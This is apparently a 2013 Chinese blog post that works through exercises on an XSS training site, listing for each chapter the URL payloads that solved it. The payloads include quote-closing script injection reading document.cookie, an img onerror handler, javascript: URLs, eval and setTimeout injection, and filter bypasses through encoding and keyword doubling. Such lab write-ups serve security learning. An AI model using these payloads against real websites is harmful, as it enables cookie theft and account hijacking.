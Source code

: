 title: 二哥XSS教学宝典学习
tags:
  - hack
id: 386
categories:
  - Hack
date: 2013-02-16 00:37:24
---

## 第一章

[http://xsst.sinaapp.com/example/1-1.php](http://xsst.sinaapp.com/example/1-1.php)

简单，自己也搞定

[http://xsst.sinapp.com/example/1-1.php?page=&lt;img src="http://www.baidu.com/img/baidu_sylogo1.gif"&gt;](http://xsst.sinaapp.com/example/1-1.php?page=%3Cimg%20src=%22http://www.baidu.com/img/baidu_sylogo1.gif%22%3E)

## 第二章

[http://xsst.sinapp.com/example/1-2.php?page=2;alert(document.cookie)]( http://xsst.sinapp.com/example/1-2.php?page=2;alert(document.cookie))

构造闭合，参数多了双引号，同样的修改一下，进行闭合。

[http://xsst.sinapp.com/example/1-2.php?page=";alert(document.cookie);//](http://xsst.sinaapp.com/example/1-2.php?page=%22;alert(document.cookie);//)

&nbsp;

课后练习题：

第1个，由于过滤了双引号，所以通过编码绕过。

[http://xsst.sinaapp.com/example/test1-2.php?page=1%27%2beval%28alert%28document.cookie%29%29%29;//](http://xsst.sinaapp.com/example/test1-2.php?page=1%27%2beval%28alert%28document.cookie%29%29%29;//)

第2个的查看一下，我们可以构造如下闭合，

[http://xsst.sinaapp.com/example/test1-2-2.php?page=1');alert(document.cookie);//](http://xsst.sinaapp.com/example/test1-2-2.php?page=1)[![QQ20130216080657](http://7xnueu.com1.z0.glb.clouddn.com/2013/02/QQ20130216080657.png)](http://7xnueu.com1.z0.glb.clouddn.com/2013/02/QQ20130216080657.png)

第3个

[http://xsst.sinaapp.com/example/test1-2-3.php?page=1';alalertert(document.cookie);'](http://xsst.sinaapp.com/example/test1-2-3.php?page=1)

## 第三章

html 静态网页传参了，以前都以为是伪静态，我去哦。js的获取地址栏参数以前自己还用过，完全没想到。菜鸟一个啊。

[http://xsst.sinaapp.com/example/1-3.htm?url=./iframe.htm](http://xsst.sinaapp.com/example/1-3.htm?url=./iframe.htm)

练习题：

[使用document.write造成的XSS （会被IE拦截,Chrome下参数中&lt;,&gt;被自动编码导致无效）](http://xsst.sinaapp.com/example/1-3-2.php?bug=1)

前面没注意 ie，chrome均不成功，别说这些了，火狐safari，opera均没弹窗

[http://xsst.sinaapp.com/example/1-3-2.php?bug=1&amp;url='&gt;&lt;img src='1' onerror='alert(document.cookie)'&gt;&lt;/img&gt;](http://xsst.sinaapp.com/example/1-3-2.php?bug=1&amp;url=)

&nbsp;

[使用eval造成的XSS](http://xsst.sinaapp.com/example/1-3-2.php?bug=2&amp;url={age:20,name:)

[http://xsst.sinaapp.com/example/1-3-2.php?bug=2&amp;url={age:0,name:(function(){alert(document.cookie)})()}](http://xsst.sinaapp.com/example/1-3-2.php?bug=2&amp;url={age:0,name:(function(){alert(document.cookie)})()})

&nbsp;

[使用innerHTML造成的XSS （会被IE拦截,Chrome下参数中&lt;,&gt;被自动编码导致无效）](http://xsst.sinaapp.com/example/1-3-2.php?bug=3)

[http://xsst.sinaapp.com/example/1-3-2.php?bug=3&amp;url='&gt;&lt;img src='1' onerror='alert(document.cookie)'&gt;&lt;/img&gt;](http://xsst.sinaapp.com/example/1-3-2.php?bug=3&amp;url=)

&nbsp;

[使用location/location.href/location.replace/iframe.src造成的XSS](http://xsst.sinaapp.com/example/1-3-2.php?bug=4)

[http://xsst.sinaapp.com/example/1-3-2.php?bug=4&amp;url=javascript:alert(document.cookie);](http://xsst.sinaapp.com/example/1-3-2.php?bug=4&amp;url=javascript:alert(document.cookie);)

&nbsp;

[使用setTimeout/setInterval造成的XSS](http://xsst.sinaapp.com/example/1-3-2.php?bug=5&amp;url=www.baidu.com)

[http://xsst.sinaapp.com/example/1-3-2.php?bug=5&amp;url=');alert(document.cookie);eval('](http://xsst.sinaapp.com/example/1-3-2.php?bug=5&amp;url=)

&nbsp;

wooyun上dom xss

[http://www.wooyun.org/tags/dom%E7%B1%BB%E5%9E%8Bxss](http://www.wooyun.org/tags/dom%E7%B1%BB%E5%9E%8Bxss)

最后可以看这里的，比较新哦html5安全相关。

[http://html5sec.org/](http://html5sec.org/)

&nbsp;